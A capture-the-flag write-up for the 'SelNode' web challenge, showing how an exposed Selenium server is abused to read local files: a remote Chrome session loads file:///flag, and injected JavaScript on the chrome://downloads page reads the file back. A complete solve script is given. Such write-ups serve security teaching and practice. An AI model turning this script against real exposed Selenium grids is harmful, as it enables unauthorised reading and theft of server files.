


# Web - SelNode - 460pts

## Description
My colleagues always hate it when they have to set up selenium on their own, so I help them set up a public one. I called it SaaS(Selenium as a Service). I hope it's safe enough, rite?

## Problem statement
We are given an URL that contains a hosted selenium standalone server. We are also given the `Dockerfile` of the server which tells us 2 things:
1. The server has Chrome webdriver installed.
2. There is a flag binary file located at `/flag` (note this is not an URL endpoint but an actual file on the target system) that is likely our target.

Futhermore, the source code of the `flag` binary is also given, which simply prints out the flag:
```c
#include <stdio.h>

int main(void) {
    puts("grey{this_is_not_flag}");
    return 0;
}
```
We can see that we need to find some way to either execute that file and get the output, or actually download the file to our local machine.

## Solving

First we have to connect to the remote webdriver hosted on the server. On the default landing page linked to us in the challenge description, there is a link that allows us to access the console of the webserver.



However, if we try to start a session by clicking on new session then selecting chrome, we will meet the following error:



By doing a quick google search, we can find that the error is likely caused by the chrome webdriver instance being launched as the root user of the server, which will lead to a crash.
[See this Stackoverflow answer for more details](https://stackoverflow.com/questions/50642308/webdriverexception-unknown-error-devtoolsactiveport-file-doesnt-exist-while-t)

Luckily, the way to fix is simple. Simply pass in `--no-sandbox` option to the chrome webdriver. However, there is no obvious way to do this in the webpage interface, therefore we have to use the `Selenium` Python package.

```python
import os, time, base64  # imported for later usage
from selenium import webdriver
from selenium.webdriver.support.ui import WebDriverWait  # imported for later usage
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

# Fix chrome crash
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument("--no-sandbox")

# load webdrive module from chrome instance/session
driver = webdriver.Remote(
    command_executor='http://challs.nusgreyhats.org:12323/wd/hub',
    desired_capabilities=DesiredCapabilities.CHROME,
    options=chrome_options
)
```

The code above will start a chrome webdriver session on the server without error. We can test by opening google.com and print its source using the code below:
```python
driver.get("https://www.google.com")
print(driver.page_source)
```

Now that we have our remote session set up, we can carry out the actual exploit.

There are many possible solutions to this challenge. One can code a webpage that allows user to upload files, then instruct the remote webdriver to visit that page and upload a local file. One can also use the `file://` protocol to access a local file, which will initiate a download action and allow us to retrieve its contents. Yes it sounds weird to be downloading a local file but that is how Chrome handles such requests. You can try it by dragging any local file into a Chrome browser window.

I solved this challenge using the later method of initiating a download action then retrieving the contents by visiting the `chrome://downloads` page and executing JavaScript because I do not have a hosted webserver at hand.

Luckily, there exists a [StackOverflow answer](https://stackoverflow.com/a/47164044) that provides working code to do this, except that it is meant for up to Chrome V79. We have to refer to [another answer](https://stackoverflow.com/a/61717236) under the same question for updated code that works till now. The code snippet is as follows:
```python
# https://stackoverflow.com/questions/47068912/how-to-download-a-file-using-the-remote-selenium-webdriver
def get_downloaded_files(driver):
    # Lists out all the files in the downloads page that have the 'completed' status
    if not driver.current_url.startswith("chrome://downloads"):
        driver.get("chrome://downloads/")

    return driver.execute_script(
        "return  document.querySelector('downloads-manager')  "
        " .shadowRoot.querySelector('#downloadsList')         "
        " .items.filter(e => e.state === 'COMPLETE')          "
        " .map(e => e.filePath || e.file_path || e.fileUrl || e.file_url); ")


def get_file_content(driver, path):
    # Get the content of the file at the given path
    elem = driver.execute_script(
        "var input = window.document.createElement('INPUT'); "
        "input.setAttribute('type', 'file'); "
        "input.hidden = true; "
        "input.onchange = function (e) { e.stopPropagation() }; "
        "return window.document.documentElement.appendChild(input); ")

    elem._execute('sendKeysToElement', {'value': [path], 'text': path})

    result = driver.execute_async_script(
        "var input = arguments[0], callback = arguments[1]; "
        "var reader = new FileReader(); "
        "reader.onload = function (ev) { callback(reader.result) }; "
        "reader.onerror = function (ex) { callback(ex.message) }; "
        "reader.readAsDataURL(input.files[0]); "
        "input.remove(); "
        , elem)

    if not result.startswith('data:'):
        raise Exception("Failed to get file content: %s" % result)

    return base64.b64decode(result[result.find('base64,') + 7:])
```

Now we just have to initiate a download by manually visiting the path of the `flag` binary, which is nicely placed just in the root directory (as we can see in the Dockerfile). We can do so by using this code:
```python
driver.get("file:///flag")  # From Dockerfile: COPY ./flag /flag
```

However, when I was testing this locally, I realised that I have to manually click confirm in a pop-up download window asking for save location. I am not sure if the same will happen on the remote server, but to be safe, I just quickly googled the way to disable that behaviour. Luckily, it is simple enough.

```python
# Disable download window popup
prefs = {"download.default_directory": "./",
         "download.prompt_for_download": 0,
         "profile.default_content_settings.popups": 0,
         "profile.default_content_setting_values.automatic_downloads": 1,
         'safebrowsing_for_trusted_sources_enabled': 0}

chrome_options.add_experimental_option("prefs", prefs)
```
Note that we have to insert the above snippet before the `driver = webdriver.Remote()` line for our updated `chrome_options` to take effect.

Next, we just have to run the `get_downloaded_files()` wrapped in `WebDriverWait()` and wait for at least 1 file to appear as 'completed' in the downloads page. Then, retrieve the file contents and save it locally.
```python
# list all the completed remote files (waits for at least one with timeout of 10 seconds)
files = WebDriverWait(driver, 10, 1).until(get_downloaded_files)

# get the content of the first file remotely
content = get_file_content(driver, files[0])

# save the content in a local file in the working directory
with open('flag_ans', 'wb') as f:
    f.write(content)
```

Finally, we just have to execute the binary, open with any decompiler/hexeditor or simply `strings` it to get the flag, since it is in plain text.

The final solve script:
```python
import os, time, base64
from selenium import webdriver
from selenium.webdriver.support.ui import WebDriverWait
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

# Fix chrome crash
chrome_options = webdriver.ChromeOptions()
chrome_options.add_argument("--no-sandbox")

# Disable download window popup
prefs = {"download.default_directory": "./",
         "download.prompt_for_download": 0,
         "profile.default_content_settings.popups": 0,
         "profile.default_content_setting_values.automatic_downloads": 1,
         'safebrowsing_for_trusted_sources_enabled': 0}

chrome_options.add_experimental_option("prefs", prefs)

# load webdrive module from chrome instance/session
driver = webdriver.Remote(
    command_executor='http://challs.nusgreyhats.org:12323/wd/hub',
    desired_capabilities=DesiredCapabilities.CHROME,
    options=chrome_options
)


# https://stackoverflow.com/questions/47068912/how-to-download-a-file-using-the-remote-selenium-webdriver
def get_downloaded_files(driver):
    if not driver.current_url.startswith("chrome://downloads"):
        driver.get("chrome://downloads/")

    return driver.execute_script(
        "return  document.querySelector('downloads-manager')  "
        " .shadowRoot.querySelector('#downloadsList')         "
        " .items.filter(e => e.state === 'COMPLETE')          "
        " .map(e => e.filePath || e.file_path || e.fileUrl || e.file_url); ")


def get_file_content(driver, path):
    elem = driver.execute_script(
        "var input = window.document.createElement('INPUT'); "
        "input.setAttribute('type', 'file'); "
        "input.hidden = true; "
        "input.onchange = function (e) { e.stopPropagation() }; "
        "return window.document.documentElement.appendChild(input); ")

    elem._execute('sendKeysToElement', {'value': [path], 'text': path})

    result = driver.execute_async_script(
        "var input = arguments[0], callback = arguments[1]; "
        "var reader = new FileReader(); "
        "reader.onload = function (ev) { callback(reader.result) }; "
        "reader.onerror = function (ex) { callback(ex.message) }; "
        "reader.readAsDataURL(input.files[0]); "
        "input.remove(); "
        , elem)

    if not result.startswith('data:'):
        raise Exception("Failed to get file content: %s" % result)

    return base64.b64decode(result[result.find('base64,') + 7:])


driver.get("file:///flag")  # From Dockerfile: COPY ./flag /flag

# list all the completed remote files (waits for at least one)
files = WebDriverWait(driver, 10, 1).until(get_downloaded_files)

# get the content of the first file remotely
content = get_file_content(driver, files[0])

# save the content in a local file in the working directory
with open('flag_ans', 'wb') as f:
    f.write(content)
```

Flag: `grey{publ1c_53l3n1um_n0d3_15_50_d4n63r0u5_8609b8f4caa2c513}`